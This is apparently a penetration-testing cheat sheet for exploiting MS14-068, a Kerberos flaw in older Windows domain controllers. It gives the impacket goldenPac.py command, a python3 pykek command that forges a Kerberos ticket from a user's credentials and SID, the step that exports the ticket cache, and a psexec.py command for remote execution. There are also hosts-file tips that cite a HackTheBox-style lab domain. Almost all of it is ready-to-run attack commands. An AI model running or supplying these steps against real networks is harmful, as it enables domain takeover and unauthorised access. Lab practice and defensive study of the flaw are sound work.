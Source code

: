 
# MS 14-068

Required: domain user credentials, connection to DC, kerberos port open (is a kerberos vuln)
Vulnerable: Windows server 2008 R2 or older...

from impacket suite:

`goldenPac.py '<domain>/<user>:<password><machine.domain>`

IMPORTAN NOTE 1: Exploit it first time and look what domain targets (Example mantis.htb.local)
then put this domain at /etc/hosts

IMPORTAN NOTE 2: In the domain*, after the "@" simbol put only text, not numbers.
And also put this text in /etc/hosts to make sure it finds the IP.

source: https://tools.thehacker.recipes/impacket/examples/goldenpac.py

-------------------------------------------------------------------------

Aditionally, use my adaptation to python3 from pykek.

extract user sid from ldap or rpc

python3 ms14-068.py -u '<user>'@'<domain>' -p '<password>' -s "<user sid>" -d "<dc ip>"

export ccache file -> export KRB5CCNAME=TGT_ticket...ccache

psexec.py '<domain>/<user>:@<machine.domain>' -no-pass -k
